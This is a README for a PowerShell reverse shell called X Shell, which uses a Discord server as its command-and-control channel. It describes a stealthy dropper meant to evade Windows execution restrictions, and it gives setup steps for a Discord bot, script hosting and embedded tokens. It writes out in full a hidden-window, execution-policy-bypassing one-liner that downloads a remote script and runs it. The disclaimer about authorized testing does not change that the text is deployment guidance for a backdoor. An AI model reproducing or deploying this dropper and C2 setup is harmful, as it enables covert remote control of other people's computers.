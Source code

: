 # X Shell: Discord-Based Reverse Shell

## Overview

X Shell is a PowerShell-based reverse shell that leverages a Discord server as its command-and-control (C2) infrastructure. It dynamically creates dedicated Discord channels for each user, enabling organized command execution and response tracking.

## 🚨 Disclaimer

**WARNING:** This tool is strictly for educational and authorized penetration testing purposes. Unauthorized use is illegal and may result in criminal prosecution. Always obtain explicit permission before testing.

## Features

- 🔒 Stealthy PowerShell dropper mechanism
- 🤖 Discord-based command and control
- 🔐 Dynamic channel creation for each session
- 🌐 Flexible script retrieval mechanism

## Architecture

### Components

1. **PowerShell Dropper**
   - Bypasses Windows execution restrictions
   - Retrieves main script from configurable source
   - Minimal footprint for evasion

2. **Script Hosting** *(Optional but Recommended)*
   - Can use Vercel, GitHub Gist, or other hosting
   - Provides secure and fast script retrieval
   - Enables easy script updates

3. **Discord C2 Server**
   - Manages communication channels
   - Executes received PowerShell commands
   - Returns command output

## Requirements

- Discord server
- Discord bot with channel management permissions
- Hosting solution for script retrieval (optional)
- PowerShell environment

## Installation Steps

### 1. Create Discord Bot
- Visit [Discord Developer Portal](https://discord.com/developers/applications)
- Create new application
- Generate bot token
- Configure permissions:
  - Manage Channels
  - Read Messages
  - Send Messages

### 2. Script Hosting *(Recommended)*
**Option A: Vercel Deployment** (Recommended)
- Fork repository
- Deploy to Vercel
- Configure authentication tokens
- Update script serving logic

**Option B: Alternative Hosting**
- Use GitHub Gist
- Private pastebin
- Personal web server
- Ensure secure, authenticated access

### 3. Prepare Deployment
- Update script with:
  - Bot token
  - Server ID
  - Category ID
  - Script retrieval URL

### 4. Execute Dropper
```powershell
powershell -W Hidden -Exec Bypass -c "$r = iwr https://your-script-host.com/ -H @{'Authorization'='Bearer your-token'}; iex $r.Content"
```

## Hosting Considerations

- Use HTTPS for script retrieval
- Implement token-based authentication
- Minimize script exposure
- Regularly rotate access tokens

## Additional Resources

- [Discord Server Template](https://discord.new/AFkzNqmAdmex)
- Preconfigured server with logging channels

## Security Considerations

- Implement strict authentication
- Rotate tokens regularly
- Monitor and log all activities
- Ensure compliance with legal standards

## Contributing

1. Fork the repository
2. Create feature branch
3. Commit changes
4. Push and submit pull request

## License



## Contact

